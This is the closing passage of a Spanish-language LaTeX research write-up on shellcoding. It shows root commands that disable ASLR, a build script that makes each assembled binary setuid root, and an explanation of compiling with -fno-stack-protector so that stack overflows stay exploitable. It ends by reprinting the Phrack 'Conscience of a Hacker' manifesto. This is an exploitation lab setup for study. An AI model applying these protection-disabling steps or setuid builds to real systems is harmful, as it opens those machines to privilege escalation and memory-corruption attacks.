Si el valor del registro $esp$ que se muestra al ejecutar este c\'odigo varias veces es diferente, significa que la medida de seguridad ASLR est\'a activada. Si el valor es el mismo despu\'es de varias ejecuciones, ASLR est\'a desactivada.
\\
Como se puede comprobar a continuaci\'on, ASLR est\'a activado:

\begin{listing}[style=consola, numbers=none, caption=ASLR activado]
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/SecurityMesures$ ./isASLREnabled ESP value: 0xbfdc8140
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/SecurityMesures$ ./isASLREnabled 
ESP value: 0xbfd09ad0
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/SecurityMesures$ ./isASLREnabled 
ESP value: 0xbfabb960
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/SecurityMesures$ ./isASLREnabled 
ESP value: 0xbf8b6970
\end{listing}

Sin embargo, cuando se ejecutan las instrucciones comentadas anteriormente, se puede comprobar que la randomizaci\'on de 
direcciones se desactiva:

\begin{listing}[style=consola, numbers=none, caption=ASLR desactivado]
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/SecurityMesures$ su root
Contraseña: 
root@Beleriand:/home/newlog/Documentos/Shellcoding/Codigos/SecurityMesures# echo "0" > /proc/sys/kernel/randomize_va_space
root@Beleriand:/home/newlog/Documentos/Shellcoding/Codigos/SecurityMesures# echo "0" > /proc/sys/kernel/exec-shield 
root@Beleriand:/home/newlog/Documentos/Shellcoding/Codigos/SecurityMesures# su newlog
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/SecurityMesures$ ./isASLREnabled 
ESP value: 0xbffff3b0
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/SecurityMesures$ ./isASLREnabled 
ESP value: 0xbffff3b0
newlog@Beleriand:~/Documentos/Shellcoding/Codigos/SecurityMesures$ ./isASLREnabled 
ESP value: 0xbffff3b0
\end{listing}

Como se puede ver, no se ha modificado el valor del archivo exec-shield-randomize. Esto se debe a que en el sistema operativo desde el que se est\'an ejecutando estas operaciones, dicho archivo no existe. Dependiendo de cada sistema, es posible que se deban modificar la totalidad de los archivos mencionados o s\'olo algunos de ellos.
\\
Para obtener m\'as informaci\'on sobre los m\'etodos de seguridad implementados por el sistema operativo y sus consecuencias sobre la ejecuci\'on de $shellcodes$, a pie de p\'agina se referencian algunos enlaces con m\'as informaci\'on\footnote{\url{http://www.wadalbertia.org/foro/viewtopic.php?f=6&t=6048&sid=ac23ff1e49ce104365b1ce93c2a0d076}}, \footnote{\url{http://www.vlan7.org/2010/10/shellcoding-sin-gcc-solo-con-nasmld.html}} \footnote{\url{http://www.vlan7.org/2010/10/creando-shellcodes-position-independent.html}} \footnote{\url{http://www.vlan7.org/2010/10/shellcoding-vueltas-con-el-flag-nx.html}}. \bigskip

\begin{itemize}
	\item \textbf{M\'etodos de compilaci\'on}
\end{itemize}

En esta investigaci\'on se han utilizado diferentes m\'etodos de compilaci\'on para diferentes situaciones. En cada una de estas situaciones ya se ha justificado el porqu\'e de dicha elecci\'on, por esta raz\'on, en este apartado sse explicar\'a qu\'e es lo que se consigue compilando el c\'odigo de un modo u otro. \bigskip

Para la mayor\'ia de c\'odigos en ensamblador compilados en este trabajo se ha utilizado el siguiente $script$:

\lstset{language=Bash,caption=$Script$ para la generaci\'on de los ejecutables}
\begin{lstlisting}
#!/bin/bash
echo "####      Generating executable...       ####"
source=$1;
sourceDOTo=`echo ${source/.S/.o}`
executable=`echo ${source/.S/}`
echo "sourceDOTo = $sourceDOTo"
echo "executable = $executable"
nasm -f elf $source
ld -o $executable $sourceDOTo
sudo chown root $executable
sudo chmod +s $executable
\end{lstlisting}

Con la cuarta l\'inea se almacena en la variable $sourceDOTo$ el valor del par\'ametro pasado sin la extensi\'on .S. Con la quinta l\'inea se elimina la extensi\'on .S del par\'ametro pasado al $script$.\\
Con la instrucci\'on de la octava l\'inea ensambla el archivo pasado como argumento en el formato ejecutable ELF. La siguiente instrucci\'on linca el archivo generado por la herramienta $nasm$ y genera el ejecutable final. Con la pen\'ultima l\'inea se modifica el propietario del ejecutable para que sea el usuario $root$. 
Con la \'ultima l\'inea se especifica que el ejecutable se ejecute con el identificador de usuario efectivo del usuario que es propietario del ejecutable.

\bigskip

Por otro lado, los c\'odigos fuentes en C se han compilador con el compilador GCC. Una de las sintaxis m\'as b\'asicas utilizadas en el momento de compilador un c\'odigo fuente es:

\begin{listing}[style=consola, numbers=none, caption=Sintaxis b\'asica de GCC]
gcc sourceCode.c -o executable
\end{listing}

Con esta sintaxis se consigue compilar el c\'odigo fuente $sourceCode.c$ y generar el ejecutable $executable.$.\\
A parte de esta sintaxis, GCC proporciona much\'isimas m\'as opciones de compilaci\'on. En esta investigaci\'on se han utilizado, b\'asicamente, dos modificadores m\'as. \\
El primero de ellos es el modificador $-g$ con lo que se generan s\'imbolos de depuraci\'on para que la depuraci\'on del ejecutable sea m\'as f\'acil. Gracias a este modificador, por ejemplo, un programador puede obtener leer el valor de las variables de un programa a partir de su nombre desde el depurador $gdb$.\\
El otro modificador que se ha utilizado en esta investigaci\'on ha sido -fno-stack-protector. Con este modificador se le especifica a GCC que no implemente ning\'un tipo de protecci\'on en la pila. Si no fuera por la especificaci\'on de este modificador, cuando ocurriera un desbordamiento de b\'ufer en la pila su explotaci\'on, en teor\'ia, se prevendr\'ia.

\pagebreak
\setlength\hoffset{-1cm}
\begin{verbatim}
    ==Phrack Inc.==

                    Volume One, Issue 7, Phile 3 of 10

=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
The following was written shortly after my arrest...

                       The Conscience of a Hacker

                                      by

                               +++The Mentor+++

                          Written on January 8, 1986
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

        Another one got caught today, it's all over the papers.  "Teenager
Arrested in Computer Crime Scandal", "Hacker Arrested after Bank Tampering"...
        Damn kids.  They're all alike.

        But did you, in your three-piece psychology and 1950's technobrain,
ever take a look behind the eyes of the hacker?  Did you ever wonder what
made him tick, what forces shaped him, what may have molded him?
        I am a hacker, enter my world...
        Mine is a world that begins with school... I'm smarter than most of
the other kids, this crap they teach us bores me...
        Damn underachiever.  They're all alike.

        I'm in junior high or high school.  I've listened to teachers explain
for the fifteenth time how to reduce a fraction.  I understand it.  "No, Ms.
Smith, I didn't show my work.  I did it in my head..."
        Damn kid.  Probably copied it.  They're all alike.

        I made a discovery today.  I found a computer.  Wait a second, this is
cool.  It does what I want it to.  If it makes a mistake, it's because I
screwed it up.  Not because it doesn't like me...
                Or feels threatened by me...
                Or thinks I'm a smart ass...
                Or doesn't like teaching and shouldn't be here...
        Damn kid.  All he does is play games.  They're all alike.

        And then it happened... a door opened to a world... rushing through
the phone line like heroin through an addict's veins, an electronic pulse is
sent out, a refuge from the day-to-day incompetencies is sought... a board is
found.
        "This is it... this is where I belong..."
        I know everyone here... even if I've never met them, never talked to
them, may never hear from them again... I know you all...
        Damn kid.  Tying up the phone line again.  They're all alike...

        You bet your ass we're all alike... we've been spoon-fed baby food at
school when we hungered for steak... the bits of meat that you did let slip
through were pre-chewed and tasteless.  We've been dominated by sadists, or
ignored by the apathetic.  The few that had something to teach found us will-
ing pupils, but those few are like drops of water in the desert.

        This is our world now... the world of the electron and the switch, the
beauty of the baud.  We make use of a service already existing without paying
for what could be dirt-cheap if it wasn't run by profiteering gluttons, and
you call us criminals.  We explore... and you call us criminals.  We seek
after knowledge... and you call us criminals.  We exist without skin color,
without nationality, without religious bias... and you call us criminals.
You build atomic bombs, you wage wars, you murder, cheat, and lie to us
and try to make us believe it's for our own good, yet we're the criminals.

        Yes, I am a criminal.  My crime is that of curiosity.  My crime is
that of judging people by what they say and think, not what they look like.
My crime is that of outsmarting you, something that you will never forgive me
for.

        I am a hacker, and this is my manifesto.  You may stop this individual,
but you can't stop us all... after all, we're all alike.

                               +++The Mentor+++
\end{verbatim}

\end{document}
